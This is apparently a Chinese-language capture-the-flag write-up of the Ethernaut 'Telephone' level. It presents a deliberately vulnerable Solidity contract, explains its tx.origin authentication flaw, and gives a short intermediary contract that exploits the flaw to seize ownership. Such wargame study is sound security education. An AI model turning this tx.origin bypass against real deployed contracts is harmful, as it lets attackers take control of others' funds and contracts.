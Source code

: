 ## Level_4.Telephone

要求：

> 将合约所有权归于自己；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

### 分析

合约很简单，能修改` owner `的地方只有两处：

1. 构造函数
2. ` changeOwner `函数

构造函数肯定不能被利用了，只剩下一个` changeOwner `函数，只要` 交易的发送者 `不为` 该消息的发送者 `即可；

可以简单增加点Logger看一下分别是什么：

![image-20250101155919901](./assets/image-20250101155919901.png)

所以，我们得增加一个代理商来帮我们调用这个函数，这个代理商就是一个中转合约：

![image-20250101160615268](./assets/image-20250101160615268.png)

注意，` delegetecall `不能用，比如` A-->B-->C `，` A `委托调用` C `，此时的` tx.origin `和` msg.sender `都是` A `；只能用` call `；

### 攻击

攻击合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Ethernaut.sol";

contract Exp {
    Telephone public tel;

    function delegateCall(address _contract, address _wallet) public {
        tel = Telephone(_contract);
        tel.changeOwner(_wallet);
    }
}
```

![image-20250101161836851](./assets/image-20250101161836851.png)

